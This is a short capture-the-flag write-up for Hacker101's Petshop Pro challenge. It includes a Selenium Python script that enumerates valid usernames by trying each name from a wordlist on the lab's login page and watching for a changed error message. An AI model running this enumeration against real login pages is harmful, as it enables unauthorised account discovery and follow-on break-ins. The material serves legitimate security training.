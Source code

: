 # Petshop Pro - capture the flag from hacker101

At the start you are given simple website with cats and dogs which you can simply add to your cart. After adding few cats and dogs you can proceed to checkout and after submitting the orders you got server is unavailable.

Isn't beautiful to buy something for free. Well, thats what is the first flag about.

* First hint is: ...

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time

driver = webdriver.Firefox()
driver.get("http://35.190.155.168/e3c7a89d01/login")

# Opening file
file1 = open('user_list.txt', 'r')
 
for line in file1:
    user_name = line.strip()
    user = driver.find_elements_by_css_selector('body > form > p:nth-child(1) > input[type=text]')[0]
    user.send_keys(user_name)

    loginbtn = driver.find_elements_by_xpath('/html/body/form/p[3]/input')[0]
    loginbtn.send_keys(Keys.RETURN)

    driver.implicitly_wait(15)

    resp = driver.find_elements_by_css_selector('body > p:nth-child(2) > b:nth-child(1)')[0]
    if resp.text != 'Invalid username':
        print(user_name)
        break

    time.sleep(1)
 
# Closing files
file1.close()
driver.close()
```